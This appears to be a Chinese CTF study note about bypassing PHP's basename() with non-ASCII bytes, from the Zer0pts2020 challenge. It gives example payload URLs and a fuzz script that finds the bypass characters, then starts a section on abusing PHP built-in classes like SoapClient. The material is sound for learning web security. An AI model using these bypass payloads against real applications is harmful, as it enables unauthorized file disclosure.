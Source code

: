 >[basename()绕过小结](https://www.cnblogs.com/yesec/p/15429527.html)

>[Zer0pts2020]Can you guess it?

`basename()`函数返回路径中的文件名部分。

在使用默认语言环境设置时，basename() 会删除文件名开头的非 ASCII 字符。

```php
http://localhost/?file=%ffindex.php/%ff
//index.php
http://localhost/?file=%ffindex.php
//index.php
http://localhost/?file=index.php%ff
//index.php
http://localhost/?file=index.php/%2b
//+

```

fuzz脚本

```php
<?php
highlight_file(__FILE__);
$filename = 'index.php';
for($i=0; $i<255; $i++){
    $filename = $filename.'/'.chr($i);
    if(basename($filename) === "index.php"){
        echo $i.'<br>';
    }
    $filename = 'index.php';
}

#测出来ascii值为47、128-255的字符均可以绕过basename()
#其中47对应的符号为'/'，在实际场景中没有利用价值
#那么也就是说我们可以利用一部分不可见字符来绕过basename()
#同时，在测试中也可以现中文字符也是可以绕过basename()
#例如汉字、？、《、》、；等中文字符

```


## 内置类、原生类

>[PHP 原生类的利用小结](https://xz.aliyun.com/t/9293)


>利用内置类结合函数执行，可以在类创造的时候执行对应代码


### Soap内置类

* 概念

    SOAP是webService三要素（SOAP、WSDL（WebServicesDescriptionLanguage)、UDDI(UniversalDescriptionDiscovery andintegration))之一：WSDL用来描述如何访问具体的接口，UDDI用来管理，分发，查询webService，SOAP（简单对象访问协议）是链接活或web服务和客户端和Web服务之间的接口。其采用HTTP作为底层通讯协议，XML作为数据传送的格式。
